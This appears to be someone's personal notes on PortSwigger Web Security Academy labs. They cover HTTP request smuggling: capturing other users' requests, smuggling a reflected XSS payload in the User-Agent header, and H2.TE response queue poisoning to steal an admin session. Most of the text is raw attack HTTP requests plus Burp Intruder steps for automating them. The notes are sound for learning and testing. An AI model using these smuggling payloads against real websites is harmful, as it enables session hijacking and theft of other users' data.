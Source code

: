 
# Getting other users requests:
```http
POST / HTTP/1.1
Host: 0a36005e0494e64e8075807f007100f4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 315
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Cookie: session=iNNypqEPNikjxsXpM6kbbw0iYRwXfSzj
Content-Length: 930
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1


csrf=HiOJoPgrKmyyyfjv6utchj5xtyUIZ13R&postId=2&name=adsf&email=asdf%40asdf.asdf&website=http%3A%2F%2F127.0.0.1%2F&comment=data:
```

# Smuggling reflected XSS
- XSS was in the User-Agent header
```http
POST / HTTP/1.1
Host: 0ade00270371dab88129520700e90055.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 199
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
Cookie: session=XnvGgDrkmvWVBVrdbXtUI6zUnFGeaVf3
Content-Type: application/x-www-form-urlencoded
User-Agent: "/><script>alert(1)</script>
Content-Length: 5

x=1
```

# Response queue poisoning using H2.TE
- Relies on HTTP/2 downgrading for backend support
- More info: https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning
- Don't know why, however adding the cookie and content-length fixed it
- Got the admin session token and used it to steal their session
- I have a bcheck to look for this, may have to scan more than once for it to appear
- In the lab you need to try to get a 302, to automate this:
 - Send to intruder
  - Set attack to sniper
  - Payload to null payloads continue indefinitely
  - Uncheck update content-length
  - Make resource pool, max concurrent = 1, delay 800ms
```http
POST / HTTP/2
Host: 0a280016039875158045daf500f800bc.web-security-academy.net
Cookie: session=nIlpa7fwkD1IPncwQYCJQf8UTZ2gs01g
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
```
